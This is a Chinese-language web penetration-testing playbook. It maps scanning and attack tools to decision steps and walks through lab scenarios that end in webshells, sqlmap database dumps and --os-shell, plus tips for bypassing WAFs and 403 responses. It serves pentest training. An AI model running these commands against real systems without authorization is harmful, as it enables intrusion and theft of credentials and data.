

# Web 应用扫描与攻击状态机 (Web Application Scanning & Attack State Machine)

## 状态机概述

Web 应用是最常见的攻击面，从目录爆破到 SQL 注入，涵盖多种攻击技术。

## 原子工具状态映射 (Atomic Tool-State Mapping)

### 1. whatweb - Web 指纹识别

**触发状态 (Trigger)**：
- 输入：发现 80/443/8080 等 HTTP 端口
- 前置条件：端口扫描完成

**核心命令人话版**：
```bash
# 快速识别
whatweb <target>

# 详细扫描
whatweb -v <target>

# 激进模式
whatweb -a 3 <target>
```

**状态转移 (State Transition)**：
- **如果识别出 CMS（WordPress/Joomla/Drupal）** → 转移到：CMS 专用扫描器
- **如果识别出框架（Laravel/Django/Flask）** → 转移到：框架特定漏洞
- **如果识别出 WAF** → 转移到：WAF 绕过技术
- **如果识别出技术栈** → 记录信息，继续扫描

---

### 2. nikto - Web 服务器漏洞扫描

**触发状态 (Trigger)**：
- 输入：发现 Web 服务
- 前置条件：完成指纹识别

**核心命令人话版**：
```bash
# 标准扫描
nikto -h <target>

# 指定端口
nikto -h <target> -p 8080

# SSL 扫描
nikto -h <target> -ssl
```

**状态转移 (State Transition)**：
- **如果发现已知漏洞** → 转移到：漏洞验证和利用
- **如果发现敏感文件** → 转移到：文件下载和分析
- **如果发现配置问题** → 记录并继续
- **如果无发现** → 转移到：目录爆破

---

### 3. ffuf - 高速目录/文件爆破

**触发状态 (Trigger)**：
- 输入：Web 端口开放但爬虫未发现明显入口
- 前置条件：需要发现隐藏路径

**核心命令人话版**：
```bash
# 目录爆破
ffuf -u http://target/FUZZ -w wordlist.txt

# 文件爆破（指定扩展名）
ffuf -u http://target/FUZZ -w wordlist.txt -e .php,.html,.txt

# 过滤 404
ffuf -u http://target/FUZZ -w wordlist.txt -fc 404

# 匹配 200
ffuf -u http://target/FUZZ -w wordlist.txt -mc 200
```

**状态转移 (State Transition)**：
- **如果输出 200** → 转移到：访问页面，分析功能
- **如果输出 403** → 转移到：403 Bypass 专项
- **如果输出 301/302** → 跟随重定向
- **如果输出 0 结果** → 转移到：更换字典/子域名爆破

---

### 4. gobuster - 多功能爆破工具

**触发状态 (Trigger)**：
- 输入：需要目录/DNS/vhost 枚举
- 前置条件：Web 服务或域名

**核心命令人话版**：
```bash
# 目录爆破
gobuster dir -u http://target -w wordlist.txt

# DNS 子域名爆破
gobuster dns -d target.com -w wordlist.txt

# 虚拟主机爆破
gobuster vhost -u http://target -w wordlist.txt
```

**状态转移 (State Transition)**：
- **如果发现目录** → 转移到：递归爆破或访问分析
- **如果发现子域名** → 转移到：子域名扫描
- **如果发现 vhost** → 转移到：vhost 访问

---

### 5. wpscan - WordPress 专用扫描器

**触发状态 (Trigger)**：
- 输入：识别出 WordPress 站点
- 前置条件：whatweb 识别出 WordPress

**核心命令人话版**：
```bash
# 枚举用户
wpscan --url <target> --enumerate u

# 枚举插件
wpscan --url <target> --enumerate p

# 枚举主题
wpscan --url <target> --enumerate t

# 全面枚举
wpscan --url <target> --enumerate u,p,t --api-token <token>
```

**状态转移 (State Transition)**：
- **如果发现过时插件** → 转移到：searchsploit 查找 exploit
- **如果发现用户名** → 转移到：暴力破解
- **如果发现漏洞** → 转移到：漏洞利用

---

### 6. sqlmap - SQL 注入自动化工具

**触发状态 (Trigger)**：
- 输入：发现可能存在 SQL 注入的参数
- 前置条件：找到注入点（URL 参数、POST 数据、Cookie）

**核心命令人话版**：
```bash
# GET 参数注入
sqlmap -u "http://target/page?id=1"

# POST 数据注入
sqlmap -u "http://target/login" --data "user=admin&pass=123"

# Cookie 注入
sqlmap -u "http://target/page" --cookie "session=xxx"

# 枚举数据库
sqlmap -u "http://target/page?id=1" --dbs

# 枚举表
sqlmap -u "http://target/page?id=1" -D database --tables

# 导出数据
sqlmap -u "http://target/page?id=1" -D database -T users --dump
```

**状态转移 (State Transition)**：
- **如果发现注入点** → 转移到：数据库枚举
- **如果枚举到数据** → 转移到：数据提取和分析
- **如果获取到凭据** → 转移到：登录尝试
- **如果无注入** → 转移到：其他漏洞测试

---

### 7. burpsuite - Web 应用安全测试平台

**触发状态 (Trigger)**：
- 输入：需要拦截和修改 HTTP 请求
- 前置条件：任何 Web 测试场景

**核心命令人话版**：
```bash
# 启动 Burp Suite
burpsuite
```

**功能模块**：
- **Proxy**：拦截和修改请求
- **Repeater**：重放和修改请求
- **Intruder**：自动化攻击（爆破、模糊测试）
- **Scanner**：自动漏洞扫描（Pro 版）

**状态转移 (State Transition)**：
- **如果发现注入点** → 使用 Repeater 测试
- **如果需要爆破** → 使用 Intruder
- **如果需要分析流量** → 使用 Proxy 历史
- **如果发现漏洞** → 转移到：手动验证和利用

---

### 8. commix - 命令注入自动化工具

**触发状态 (Trigger)**：
- 输入：怀疑存在命令注入
- 前置条件：找到可能的注入点

**核心命令人话版**：
```bash
# GET 参数注入
commix -u "http://target/page?cmd=INJECT_HERE"

# POST 数据注入
commix -u "http://target/page" --data "cmd=INJECT_HERE"

# Cookie 注入
commix -u "http://target/page" --cookie "cmd=INJECT_HERE"
```

**状态转移 (State Transition)**：
- **如果发现命令注入** → 转移到：获取 shell
- **如果获取 shell** → 转移到：权限提升
- **如果无注入** → 转移到：其他漏洞测试

---

### 9. wafw00f - WAF 识别

**触发状态 (Trigger)**：
- 输入：怀疑存在 WAF
- 前置条件：扫描被拦截或返回异常

**核心命令人话版**：
```bash
# 识别 WAF
wafw00f <target>

# 测试所有 WAF
wafw00f -a <target>
```

**状态转移 (State Transition)**：
- **如果识别出 WAF** → 转移到：WAF 绕过技术
- **如果无 WAF** → 继续正常扫描

---

## 聚类攻击状态机 (Clustered Attack State Machine)

### Web 应用攻击完整流程（If-Then-Else 逻辑）

```
[起点：发现 HTTP/HTTPS 端口]
    ↓
[步骤 1：指纹识别]
    使用 whatweb 识别技术栈
    IF 识别出 CMS:
        IF WordPress → wpscan
        IF Joomla → joomscan
        IF Drupal → droopescan
    ELSE IF 识别出框架:
        记录框架信息 → 查找框架特定漏洞
    ELSE IF 识别出 WAF:
        记录 WAF 类型 → 准备绕过技术
    ELSE:
        继续通用扫描
    ↓
[步骤 2：漏洞扫描]
    使用 nikto 扫描已知漏洞
    IF 发现漏洞:
        验证漏洞 → 尝试利用
    IF 发现敏感文件:
        下载分析
    ELSE:
        继续目录爆破
    ↓
[步骤 3：目录/文件爆破]
    使用 ffuf/gobuster 爆破
    IF 发现 200:
        访问页面 → 分析功能
        IF 发现登录页面:
            → 暴力破解
        IF 发现上传功能:
            → 文件上传漏洞测试
        IF 发现参数:
            → 注入测试
    ELSE IF 发现 403:
        → 403 Bypass 技术
    ELSE IF 0 结果:
        → 更换字典或方法
    ↓
[步骤 4：漏洞测试]
    IF 发现 URL 参数:
        测试 SQL 注入 (sqlmap)
        测试 XSS
        测试 LFI/RFI
        测试命令注入 (commix)
    IF 发现 POST 表单:
        测试 SQL 注入
        测试 CSRF
        测试文件上传
    IF 发现 Cookie:
        测试 Cookie 注入
        测试会话固定
    ↓
[步骤 5：深度利用]
    IF SQL 注入成功:
        枚举数据库 → 提取数据 → 获取凭据
    IF 命令注入成功:
        获取 shell → 权限提升
    IF 文件上传成功:
        上传 webshell → 获取 shell
    IF 获取凭据:
        登录后台 → 寻找更多功能
```

---

## 场景决策链路 (Scenario Decision Path)

### 场景 1：HTB 靶机 Web 应用渗透

**场景还原**：
```
目标：http://10.10.10.123
Nmap 结果：80/tcp open http Apache/2.4.41
```

**状态机运行路径**：

1. **第一步：指纹识别**
   ```bash
   whatweb http://10.10.10.123
   ```
   **输出**：
   ```
   http://10.10.10.123 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ],
   HTML5, HTTPServer[Apache/2.4.41], IP[10.10.10.123],
   Title[Welcome], X-Powered-By[PHP/7.4.3]
   ```

2. **状态机判定**：Apache + PHP，无 CMS
   - 转移到：通用漏洞扫描

3. **第二步：漏洞扫描**
   ```bash
   nikto -h http://10.10.10.123
   ```
   **输出**：
   ```
   + /admin/: Admin directory found
   + /backup/: Backup directory found
   + /config.php.bak: Configuration backup file found
   ```

4. **状态机判定**：发现敏感目录和备份文件
   - 转移到：下载备份文件分析

5. **第三步：下载备份文件**
   ```bash
   curl http://10.10.10.123/config.php.bak
   ```
   **输出**：
   ```php
   <?php
   $db_host = "localhost";
   $db_user = "webapp";
   $db_pass = "P@ssw0rd123!";
   $db_name = "webapp_db";
   ?>
   ```

6. **状态机判定**：获取数据库凭据
   - 转移到：尝试登录数据库或后台

7. **第四步：目录爆破（并行）**
   ```bash
   ffuf -u http://10.10.10.123/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 404
   ```
   **输出**：
   ```
   admin                   [Status: 301]
   backup                  [Status: 301]
   login.php               [Status: 200]
   upload.php              [Status: 200]
   ```

8. **状态机判定**：发现登录和上传页面
   - 转移到：测试登录（使用数据库凭据）

9. **第五步：登录测试**
   访问 login.php，使用凭据 webapp:P@ssw0rd123!
   **结果**：登录成功

10. **状态机判定**：获取后台访问权限
    - 转移到：测试上传功能

11. **第六步：文件上传测试**
    上传 PHP webshell
    **结果**：上传成功，获取 shell

**内化点 (Internalization)**：
- **为什么先扫描再爆破？**
  - nikto 能快速发现已知问题
  - 目录爆破耗时较长，可以并行进行
  - 先获取快速结果，再深入挖掘

- **为什么下载备份文件？**
  - 备份文件常包含敏感信息（凭据、配置）
  - 开发者常忘记删除备份文件
  - 这是快速获取凭据的捷径

---

### 场景 2：WordPress 站点渗透

**场景还原**：
```
目标：http://target.com
whatweb 识别：WordPress 5.8.1
```

**状态机运行路径**：

1. **第一步：WordPress 枚举**
   ```bash
   wpscan --url http://target.com --enumerate u,p,t --api-token <token>
   ```
   **输出**：
   ```
   [+] Users:
   | ID | Login  | Name
   +----+--------+------
   | 1  | admin  | Admin
   | 2  | john   | John Doe

   [+] Plugins:
   | Name: contact-form-7
   | Version: 5.4.1
   | Vulnerabilities: None

   | Name: file-manager
   | Version: 6.0
   | Vulnerabilities: Arbitrary File Upload (CVE-2020-25213)
   ```

2. **状态机判定**：发现过时插件存在文件上传漏洞
   - 转移到：searchsploit 查找 exploit

3. **第二步：查找 exploit**
   ```bash
   searchsploit "WordPress File Manager 6.0"
   ```
   **输出**：
   ```
   WordPress Plugin File Manager 6.0 - Arbitrary File Upload
   ```

4. **状态机判定**：找到 exploit
   - 转移到：漏洞利用

5. **第三步：漏洞利用**
   使用 exploit 上传 webshell
   **结果**：上传成功，获取 shell

6. **状态机判定**：获取 webshell 访问权限
   - 转移到：权限提升

**内化点 (Internalization)**：
- **为什么先枚举插件？**
  - WordPress 核心通常更新及时
  - 插件是主要的攻击面
  - 过时插件常有已知漏洞

- **为什么使用 API token？**
  - WPScan API 提供最新的漏洞信息
  - 免费 token 每天 25 次请求
  - 能识别更多漏洞

---

### 场景 3：SQL 注入到 RCE

**场景还原**：
```
目标：http://target.com/product.php?id=1
怀疑：SQL 注入
```

**状态机运行路径**：

1. **第一步：手动测试**
   ```bash
   curl "http://target.com/product.php?id=1'"
   ```
   **输出**：SQL 错误信息

2. **状态机判定**：存在 SQL 注入
   - 转移到：sqlmap 自动化

3. **第二步：sqlmap 检测**
   ```bash
   sqlmap -u "http://target.com/product.php?id=1" --batch
   ```
   **输出**：
   ```
   [INFO] GET parameter 'id' is vulnerable
   [INFO] the back-end DBMS is MySQL
   ```

4. **状态机判定**：确认 MySQL 注入
   - 转移到：数据库枚举

5. **第三步：枚举数据库**
   ```bash
   sqlmap -u "http://target.com/product.php?id=1" --dbs
   ```
   **输出**：
   ```
   available databases [3]:
   [*] information_schema
   [*] mysql
   [*] webapp
   ```

6. **状态机判定**：发现 webapp 数据库
   - 转移到：枚举表

7. **第四步：枚举表和数据**
   ```bash
   sqlmap -u "http://target.com/product.php?id=1" -D webapp --tables
   sqlmap -u "http://target.com/product.php?id=1" -D webapp -T users --dump
   ```
   **输出**：获取用户凭据

8. **状态机判定**：获取凭据
   - 转移到：尝试登录或提权

9. **第五步：尝试 OS 命令执行**
   ```bash
   sqlmap -u "http://target.com/product.php?id=1" --os-shell
   ```
   **输出**：获取 shell

**内化点 (Internalization)**：
- **为什么先手动测试？**
  - 快速确认是否存在注入
  - sqlmap 较慢且产生大量请求
  - 手动测试更隐蔽

- **为什么使用 --batch？**
  - 自动回答所有问题
  - 适合自动化场景
  - 使用默认选项

---

## 思维判定流程图 (Decision Flowchart)



---

## 工具选择决策表

| 场景 | 首选工具 | 备选工具 | 原因 |
|------|---------|---------|------|
| 指纹识别 | whatweb | wappalyzer | whatweb 命令行，易自动化 |
| 漏洞扫描 | nikto | nmap scripts | nikto 专注 Web 漏洞 |
| 目录爆破 | ffuf | gobuster | ffuf 速度更快 |
| WordPress | wpscan | - | 专用工具，功能最全 |
| SQL 注入 | sqlmap | 手动测试 | sqlmap 自动化程度高 |
| 命令注入 | commix | 手动测试 | commix 自动化检测 |
| 流量分析 | burpsuite | mitmproxy | burpsuite 功能最全 |

---

## 常见陷阱与绕过

### 1. WAF 拦截
**问题**：扫描被 WAF 拦截
**解决**：
- 降低扫描速度
- 使用随机 User-Agent
- 使用代理池
- 编码 payload

### 2. 403 Forbidden
**问题**：目录存在但返回 403
**解决**：
- 尝试不同 HTTP 方法（POST、PUT）
- 添加 X-Original-URL 头
- 尝试路径遍历（..;/）
- 尝试大小写绕过

### 3. 目录爆破无结果
**问题**：字典不匹配
**解决**：
- 更换字典（SecLists）
- 根据技术栈选择字典
- 使用递归爆破
- 分析源代码获取路径

---

## 下一步状态机

完成 Web 应用扫描后，根据结果转移到：
1. **权限提升状态机**（如果获得 shell）
2. **数据库攻击状态机**（如果发现数据库）
3. **横向移动状态机**（如果在内网）
4. **凭据提取状态机**（如果获得系统访问）

---

*文档生成时间：2026-03-22*
*状态机类型：Web 应用扫描与攻击*
